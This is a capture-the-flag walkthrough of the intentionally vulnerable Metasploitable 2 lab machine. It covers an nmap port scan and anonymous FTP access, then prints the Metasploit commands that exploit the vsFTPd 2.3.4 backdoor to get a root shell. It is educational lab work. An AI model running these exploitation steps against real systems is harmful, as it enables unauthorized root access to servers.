 # Metasploitable 2 - CTF Walkthrough

Target IP: 10.0.2.5  
Scanner used: Nmap  
Date: 30 June 2025  
Author: (aka katakambing)

---

## Note

This walkthrough documents the enumeration and exploitation of services found running on Metasploitable 2. Each step outlines the commands used, observations made, and outcomes of exploitation attempts. This is for educational and portfolio-building purposes only. Do not attempt unauthorized access on systems you do not own or have explicit permission to test.

---

## 1. Initial Port Scan

Command:
```bash
nmap -sS -p- 10.0.2.5

Output summary:
Host is up with 33 open TCP ports.
Services running include: FTP, SSH, Telnet, SMTP, SMB, MySQL, PostgreSQL, VNC, AJP, and more.

Open Ports:
21/tcp     - FTP
22/tcp     - SSH
23/tcp     - Telnet
25/tcp     - SMTP
53/tcp     - DNS
111/tcp    - rpcbind
139/tcp    - NetBIOS-SSN
445/tcp    - Microsoft-DS
512-514    - r-services
1099/tcp   - RMI Registry
2049/tcp   - NFS
2121/tcp   - ccproxy FTP
3306/tcp   - MySQL
3632/tcp   - DistCC
5432/tcp   - PostgreSQL
5900/tcp   - VNC
8009/tcp   - AJP13
8180/tcp   - Unknown HTTP
8787/tcp   - msgsrvr
45156+     - Unknown high ports


2. FTP Enumeration (Port 21)
Command:
ftp 10.0.2.5

Result:
Logged in using:

Username: anonymous

Password: (blank)

FTP Server: vsFTPd 2.3.4

File Upload Attempt:
echo "test upload from katakambing" > test.txt
ftp 10.0.2.5
put test.txt

Response:
553 Could not create file.

Conclusion:

Anonymous login is enabled
No writable directories found
FTP access is read-only

3. Exploiting vsFTPd 2.3.4 Backdoor (CVE-2011-2523)
The FTP server is running a known vulnerable version: vsFTPd 2.3.4

Exploit used:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.5
run

result:
[*] Backdoor service has been spawned.
[*] Command shell session opened.

Post-Exploitation - Root Shell Access
Proof of Access:
whoami
# root

ls /
# bin  boot  dev  etc  home  lib  media  mnt  opt  proc  root  sbin  tmp  usr  var


